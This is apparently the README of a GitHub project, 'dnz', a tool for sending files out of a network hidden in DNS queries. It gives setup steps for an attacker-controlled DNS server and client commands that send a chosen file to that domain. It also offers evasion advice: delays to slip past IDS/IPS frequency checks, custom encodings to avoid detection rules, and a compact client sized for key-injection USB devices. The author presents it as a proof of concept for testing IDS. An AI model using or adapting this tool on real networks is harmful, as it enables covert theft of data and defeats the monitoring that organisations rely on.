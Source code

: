 # dnz

This should be the last tool to use, as it is slow, but if the only way to get the data out of the network is through DNS (if you can make connection over UDP 53 to external network, use anything else, which will be faster), then this tool is working. The only difference from the tools I have found and tested is introduction of delay between the calls.
*Why would you want that?*
Some IDS/IPS (Intrusion Detection System or Intrusion Prevention Systems) are monitoring frequency of DNS calls to unknown locations, therefore, introducing delay might help to be stealthier.

## How to use
If you know what you are about to do, you should understand that you need to have a control of DNS records and have publicly available server. At this point we will assume that you have that part already done (instructions at part: How to install and configure).
So the usage is simple, on the **"server"** you just need to run (after installing [scapy](https://scapy.net/) for your python):
*python server.py IPtoListenOn DomainName NetworkInterface
python server.py 192.168.0.1 my.domain.com eth0*

Reasons for requirements to provide IP and Network Interface: your server might have multiple, but we do not want to analyse the traffic we do not care about.

If you choose to use the python on the client, then you do not need any additional libraries, standard installation will handle everything and here is the whole beauty. Otherwise there are compiled binaries for Windows (x86), Linux (x86) and OS X (x64), the code which has been compiled is written in GoLang (no judgement here, I am still starting the Go, so trial and error here). Client is simple as well:
*python client.py fileName domain timeToSleep retriesIfNoDNSresponse fileNumberIfMultipleSent
python client.py test.txt my.domain.com 1 2 5*
* fileName - the file name of file you want to transfer
* domain - the domain which you are using (configured)
* timeToSleep - the delay in seconds for between DNS requests, default is 0, (1 in example) increasing the number will slow down the transfer
* retriesIfNoDNSresponse - by default we are expecting to receive DNS response (IP should be 127.0.0.1, additional thing with IPS/IDS they will not be able to check if after the DNS request you have tried a connection), default is set to 2
* fileNumberIfMultipleSent - in case you want to send multiple files, you can set the number of the file, default is set to 1 (5 in example), this is a single digit number!!!

## Limitations
With current design the limitations are the following:
* File should be less than ~240KB
* Up to 9 files can be transferred from machines with same local IP address (chances are low that you will be doing that from two different machines with same IP)
* No encryption, so your file is being transferred over the public network without encryption - you know it's a bad idea
* Not too difficult to run DOS against server after reading the code :)
* If someone is aware of the design, it is possible to corrupt the file in transfer

Probably there are more, but hey, it was PoC.

## How to install and configure
### Server
This is the hardest part, as you need to have server with python, root privileges (listen and respond port 53) and access to control DNS records. Let's start with DNS records.
* Create an A type record for your server, i.e. *m1ns.domain.com IN A x.x.x.x*
* Create NS type record for a short subdomain, i.e. *m.domain.com IN NS m1ns.domain.com*  (as you see your NS server must match the previously created A record, not a rocket science here)
You are done with the DNS records, but check with your provider how to properly set those.

On server Download the server.py from repo, install requirements and run:
* git clone https://github.com/zalt3es/dnz/
* pip install scapy (or pip install requirements.txt)
* python server.py x.x.x.x m.domain.com eth0

That's it, you have a running server.
### Client
Download and run either binary or python. In case you want to transfer less data you can use client2.py, it takes some time to read it, but it's just same code as client.py, just shorter variables, no comments, etc. - should fit even in any key injection USB (Rubber Ducky, etc. probably even in digispark with key injection). In regards to machine permissions, any user, as long as it has access to the file.

## Story behind
This might be boring for some, but interesting to others. I had a need to check how IDS work for DNS tunnelling and data exfiltration over DNS. Multiple publicly available tools has been identified by IDS and blocked, which is not fun in my understanding. Thinking of how IDS and IPS works I have tried to find DNS exfiltration tool which would allow me to use delay between requests, though nothing found in 5 minutes (I might have terrible searching skills :) ). Then I decided that it should not be too difficult to write something like that myself and [scapy](https://scapy.net/) was my tool to go, as python is easy and quick (at least for me).
After analysing how to trap and respond to DNS requests with [scapy](https://scapy.net/), I had another issue, what encoding should be used, it must contain only letters, numbers and hyphen, check [Wikipedia](https://en.wikipedia.org/wiki/Hostname), so BASE64 falls down, as it is case sensitive. Luckily, I don't have to invent the wheel, python has BASE32 encoding as default encoding type, which is not case sensitive, and even uses less characters than I need.
Another thing which was considered, what information I want to have and the way payload needs to organised, so came up with this payload structure:
hhhhhhhhAXXXXpppppppppp
* hhhhhhhh - IP of originating machine in hex to save space, could be even smaller
* A       - File number (in case you want to run multiple files from the machine - this would increase the noise)
* XXXX    - packet number, this is a numeric value, that's where the limitation for file size comes from, file must be sent in less than 10.000 requests
* pppppppp - the part of file, or filename if that is the first request

As expected, creating custom tool and introducing delays, got the file out without triggering alerts, though logic behind rules has been changed and analysis and correlation between other machines on the network helped a lot. Rules can be changed to identify the tools, but new tool is always hard to identify. Since such a simple tool was not identified during the test on quite isolated network, logic says that if you really need to use DNS, then take the server.py and create your own structure which would be beneficial for you (i.e. if you need to transfer only digits, then there is no reason to BASE32 encode, just encode to hex, or even better, create your own simple encoding utilising all alphabet characters and digits - 36 characters, so number up to 3656.1584.4006.2976 should fit in 10 characters).

Enjoy!

## Disclaimer

All the information on here is published in good faith and for general information purpose only. I do not make any warranties about the completeness, reliability and accuracy of this information. Any action you take upon the information (including code) you find in this repo, is strictly at your own risk. I will not be liable for any losses and/or damages in connection with the use of the tool, code, information, etc. on this repo. I am not responsible for misuse of tools and information, as well, this tool shoul not be used for illegal purposes.
